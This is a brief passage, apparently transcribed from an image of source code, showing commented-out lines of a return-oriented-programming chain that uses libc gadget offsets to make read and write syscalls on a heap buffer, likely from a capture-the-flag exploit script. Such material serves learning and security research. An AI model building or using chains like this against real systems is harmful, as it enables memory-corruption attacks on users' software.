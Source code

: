                 # heap,

                # libc.address + 0x0000000000001b96, # pop rdx; ret;

                # 0x100,

                # libc.address + 0x00000000000439c8, # pop rax; ret;

                # 0,

                # libc.address + 0x00000000000d2975, # syscall; ret;

​

                # libc.address + 0x000000000002155f, # pop rdi; ret;

                # 1,

                # libc.address + 0x0000000000023e6a, # pop rsi; ret;

                # heap,

                # libc.address + 0x0000000000001b96, # pop rdx; ret;

                # 0x100,

                # libc.address + 0x00000000000439c8, # pop rax; ret;

                # 1,

                # libc.address + 0x00000000000d2975, # syscall; ret;

​

​
